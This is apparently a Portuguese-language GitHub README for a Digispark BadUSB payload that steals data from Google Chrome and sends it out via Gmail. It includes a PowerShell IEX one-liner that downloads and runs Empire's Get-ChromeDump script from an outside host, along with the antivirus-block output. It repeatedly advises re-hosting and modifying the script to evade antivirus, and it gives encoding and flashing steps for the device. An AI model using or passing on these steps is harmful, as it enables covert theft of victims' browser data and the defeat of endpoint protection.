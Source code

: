 # Esse projeto é detectado pelo antivirus do windows pois muitas pessoas usaram o link padrão do GetChromeDump.ps1 diretamente do repositorio do EmpireProject, então baixe o GetChromeDump up em outro github e faça modificações no código para não ser detectado
PS C:\WINDOWS\system32> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/collection/Get-ChromeDump.ps1'); Get-ChromeDump -OutFile 'C:\l\ChromeDump.txt'
IEX : No linha:1 caractere:1
+ Function Get-ChromeDump{
+ ~~~~~~~~~~~~~~~~~~~~~~~~
Este script contém conteúdo mal-intencionado e foi bloqueado pelo software antivírus.
No linha:1 caractere:1
+ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubuser ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ParserError: (:) [Invoke-Expression], ParseException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent,Microsoft.PowerShell.Commands.InvokeExpressionCommand

Get-ChromeDump : O termo 'Get-ChromeDump' não é reconhecido como nome de cmdlet, função, arquivo de script ou programa
operável. Verifique a grafia do nome ou, se um caminho tiver sido incluído, veja se o caminho está correto e tente
novamente.
No linha:1 caractere:162
+ ... module_source/collection/Get-ChromeDump.ps1'); Get-ChromeDump -OutFil ...
+                                                    ~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (Get-ChromeDump:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
    
# tente baixar o arquivo Get-ChromeDump.ps1 e upar em outro git, modifique algo no script para não ser detectado pelo antivirus.


# Usando o digispark para exfiltrar dados do google chrome
this is a modified version from: https://github.com/cubidalsphere/Rubber-Ducky
you need to use https://github.com/mame82/duck2spark to encode digispark's payload

---

# vamos lá... 
para começar, vc precisa usar o duckencode e depois o duck2spark do mame82 (github mame82)

primeiro upa o arquivo referente à conexão com o gmail em algum free host... e configura ele tbm (né)

depois pega o payload .duck e usa o duckencoder (ta no git do mame82) nele:

**cat ~/payload.duck | python duckencoder.py -p -l br > inject.bin**

depois vc precisa usar o duck2spark (ta no git do mame82):

**./duck2spark.py -i inject.bin -l 1 -f 2000 -o inject.ino**

agora vc já tem o arquivo .ino é só subir pro digispark usando a IDE do arduino... (tem que baixar os drivers do digispark e tbm baixar a lib dele na ide do arduino)

se depois de tudo isso vc ainda não conseguir um payload funcional, esquece e vai estudar um pouco sobre arduino e HID antes de tentar isso...

[![VIDEO USANDO O DIGISPARK](https://static.makeuseof.com/wp-content/uploads/2015/12/youtube-player-670x335.jpg)](https://www.youtube.com/watch?v=py2dDVzWSw4)
